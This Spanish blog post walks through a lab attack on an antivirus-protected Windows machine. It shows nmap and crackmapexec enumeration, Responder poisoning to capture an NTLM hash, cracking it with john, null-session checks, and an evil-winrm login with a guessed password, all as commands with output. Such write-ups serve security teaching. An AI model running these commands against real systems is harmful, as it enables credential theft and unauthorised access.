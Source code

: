```yaml
---
title: Vulnerando un equipo protegido con antivirus
author: HackerCloud
date: 2022-09-2 00:00:00 +0800
categories: [Blogging, Security]
tags: [Blogging]
image:
  path: ../../assets/img/commons/panda-security/panda.png
  width: 800
  height: 500
  alt: Banner Panda Security
---
```


Antes de empezar deciros que esto es un entorno de pruebas en local, panda security es un antivirus muy bueno para las personas que no saben se ciberseguridad y quieren estar protegidos, en este artículo lo que más importa es el último párrafo.

Para empezar tenemos que enumerar los equipos que están en nuestro segmento de red, para eso usaremos el parámetro `-sP` de nmap

```ruby
❯ sudo nmap -sP 192.168.1.44/24
Nmap scan report for 192.168.1.16
MAC Address: REDACTED (REDACTED)
Nmap scan report for REDACTED (192.168.1.20)
Host is up.
Nmap done: 256 IP addresses (X hosts up) scanned in 2.08 seconds
```

Con esto ya podemos empezar el escaneo de puertos con nmap

```ruby
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
49667/tcp open  msrpc         Microsoft Windows RPC
5985/tcp  open  wsman         
```

Está el puerto SMB abierto así que podemos empezar a enumerarlo con crackmapexec

```ruby
❯ crackmapexec smb 192.168.1.20
SMB         192.168.1.20    445    REDACTED         [*] Windows 10.0 Build x64 (name:REDACTED) (domain:REDACTED) (signing:False) (SMBv1:False)
```

Vemos que tiene la firma desactivada, podemos empezar con un simple SMB Relay, este ataque consiste en ejecutar el [responder](https://github.com/SpiderLabs/Responder) y esperar a que alguien acceda o intente acceder a un recurso compartido a nivel de red sin importar que dicho recurso exista, esta vulnerabilidad es muy común en empresas ya que solo es necesario tener la firma deshabilitada para ser vulnerable

Este ataque lo estoy haciendo con Panda Security Professional activado y con el firewall activado, en este ataque solo importa que la firma esté desactivada

Solamente tenemos que ejecutar el responder con el parámetro -I para indicar nuestra interfaz de red

```ruby
❯ python3 Responder.py -I wlan0
[+] Poisoners:                                                                                                                                                
    LLMNR                      [ON]                                                                                                                           
    NBT-NS                     [ON]                                                                                                                           
    MDNS                       [ON]                                                                                                                           
    DNS                        [ON]                                                                                                                           
    DHCP                       [OFF]
[+] Servers:                                                                                                                                                  
    HTTP server                [ON]                                                                                                                           
    HTTPS server               [ON]                                                                                                                           
    WPAD proxy                 [OFF]                                                                                                                          
    Auth proxy                 [OFF]                                                                                                                          
    SMB server                 [ON]                                                                                                                           
    Kerberos server            [ON]                                                                                                                           
    SQL server                 [ON]                                                                                                                           
    FTP server                 [ON]                                                                                                                           
    IMAP server                [ON]                                                                                                                           
    POP3 server                [ON]                                                                                                                           
    SMTP server                [ON]                                                                                                                           
    DNS server                 [ON]                                                                                                                           
    LDAP server                [ON]                                                                                                                           
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]
REDACTED
[SMB] NTLMv1-SSP Client   : REDACTED
[SMB] NTLMv1-SSP Username : WORKGROUP\user
[SMB] NTLMv1-SSP Hash     : user::WORKGROUP:REDACTED:REDACTED:REDACTED
```

Con este hash ya solamente queda intentar crackearlo, en este caso he usado john con el diccionario rockyou.txt, como la contraseña era débil he podido crackearla

```ruby
❯ john --show hash
user:REDACTED

1 password hash cracked, 0 left
```

Como esto ha sido demasiado fácil, vamos a hacer como que el SMB está firmado en todos los equipos

Podemos empezar probando con smbclient para ver si tiene habilitado el null session

```ruby
❯ smbclient -L 192.168.1.20 -N
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.1.20 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Nos dice que está habilitado el null session pero no hay ninguna carpeta compartida, podemos hacer lo mismo con smbmap o crackmapexec para asegurarnos

```ruby
❯ smbmap -H 192.168.1.20 -u ""
[+] IP: 192.168.1.20:445        Name: REDACTED
```

```ruby
❯ crackmapexec smb 192.168.1.20 -u "" -p "" --shares 
SMB         192.168.1.20    445    REDACTED         [-] Error enumerating shares: SMB SessionError: STATUS_ACCESS_DENIED({Access Denied}
```

No vemos nada con ninguna de las 3 herramientas, podemos seguir por el puerto RPC para intentar enumerar usuarios del dominio

```bash
❯ rpcclient -U "" 192.168.1.20 -N -c "enumdomusers" | grep -oP '\[.*?\]' | sort -u | tr -d '[]'
```

Nos da dos usuarios, el usuario Administrador y el usuario user, podemos probar a conectarnos por winrm usando de contraseña el usuario

```powershell
❯ evil-winrm -i 192.168.1.20 -u 'user' -p 'user'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

PS C:\Users\user\Documents>
```

Y con esto nos podemos dar cuenta de que por muchas protecciones de antivirus que te pongas, sigue siendo más importante el factor humano.

